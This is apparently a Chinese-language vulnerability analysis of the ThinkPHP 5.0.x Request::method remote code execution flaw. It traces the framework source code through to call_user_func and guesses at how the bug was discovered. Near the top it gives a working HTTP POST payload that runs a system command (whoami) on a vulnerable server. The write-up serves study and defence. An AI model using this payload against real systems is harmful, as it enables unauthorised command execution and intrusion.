


### 0x00 漏洞简介
由于ThinkPHP5框架对Request类的method处理存在缺陷, 导致黑客构造特定的请求，可直接Getshell.
影响版本: 5.0.0~5.0.23
影响条件: 使用thinkphp完整版或非完整版开启了debug模式

### 0x01 payload
```http
POST /public/index.php HTTP/1.1
Host: target:port
Content-Length: xxx
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

_method=__construct&filter[]=system&server[REQUEST_METHOD]=whoami
```

:::warning
不同版本的thinkphp的payload可能会有不同
:::

### 0x02 漏洞流程图
本地采用的复现环境为github仓库拉取的官方thinkphp5.0.23版本, 向/public/index.php发送payload, 漏洞流程图如下:



上图已经可以很好的展示打入漏洞payload所经过的流程, 简述一下漏洞产生原因就是: 在debug模式下, thinkphp会记录请求参数, 从而调用$request->param()方法, 而param()方法最终会层层调用执行到包含命令执行函数call_user_func函数的方法filterValue, 而因为Request类中method方法未对请求参数进行充分过滤, 且还包含变量覆盖方法__construct, 从而导致了恶意payload可以最终利用call_user_func函数实现远程RCE.

### 0x03 调试过程问题记录
下面记录调试时比较疑惑的几个问题:
1. 为什么能通过method方法走进__construct方法里?
先看method方法:
```php
public function method($method = false)
{
    if (true === $method) {
        // 获取原始请求类型
        return $this->server('REQUEST_METHOD') ?: 'GET';
    } elseif (!$this->method) {
        if (isset($_POST[Config::get('var_method')])) {
            $this->method = strtoupper($_POST[Config::get('var_method')]);
            $this->{$this->method}($_POST);
        } elseif (isset($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE'])) {
            $this->method = strtoupper($_SERVER['HTTP_X_HTTP_METHOD_OVERRIDE']);
        } else {
            $this->method = $this->server('REQUEST_METHOD') ?: 'GET';
        }
    }
    return $this->method;
}
```

再跟调用流程的时候很疑惑的是为什么明明payload传入的是_method=__construct, 却会在 `$this->{$this->method}($_POST);` 这一步走进__construct方法.
关键在于Config::get('var_method')方法, 这个函数最终会从配置文件config.php中读取配置, 而var_method对应的默认值为**_method**, 因此在调用method方法时, $this->method = strtoupper($_POST[Config::get('var_method')]); 这一步会将_method赋值给$this->method, 从而在后续调用$this->{$this->method}($_POST);时, 调用的是__construct方法.



2.暂定
:::warning
因为文章于调试完成后所写, 当时调试时想到的一些不理解的地方有一些忘记了...,后续如果遇到了想起来再补充
:::

### 0x04 漏洞发现思路复现
thinkphp REQUEST类method方法这个洞的发现感觉很不可思议, 需要满足能够最终可以调用到call_user_func的filterValue方法, 因为需要可以控制传入到filter, 还需要找到可以完成变量覆盖的方法__construct, 恰好Request类中的method方法又没有对传入的参数进行充分过滤, 可以覆盖默认配置变量从而执行到__construct中完成变量覆盖。下面是猜测的漏洞发现思路:

从包含call_user_func的filterValue方法入手, 全局查看哪个方法引用了filterValue方法, 发现只有两个, 且均位于Request.php中, 分别是
```php
public function cookie($name = '', $default = null, $filter = '')
public function input($data = [], $name = '', $default = null, $filter = '')
```
因为从github中拉取下来的thinkphp的源码没有任何地方对cookie方法做过引用, 因此此时存在唯一的向上路径, 即input方法, 继续向上找input方法的引用, 因为input的引用有比较多, 向上查看就只有靠耐心了(要找到一个能够控制传入参数的地方), 一直向上找最终发现了method方法存在漏洞(仅猜测)。又或者可能是先发现了Request类中的method方法存在漏洞, 又依次向下找能够利用到的函数, 为了最终能够实现RCE又从call_user_func向上找, 这样双向奔赴...

:::warning
0x04 这一节是完全的猜测, 过程并不全, 也没有具体的证据, 仅对代码审计挖掘漏洞时的挖掘思路进行猜测拓展
:::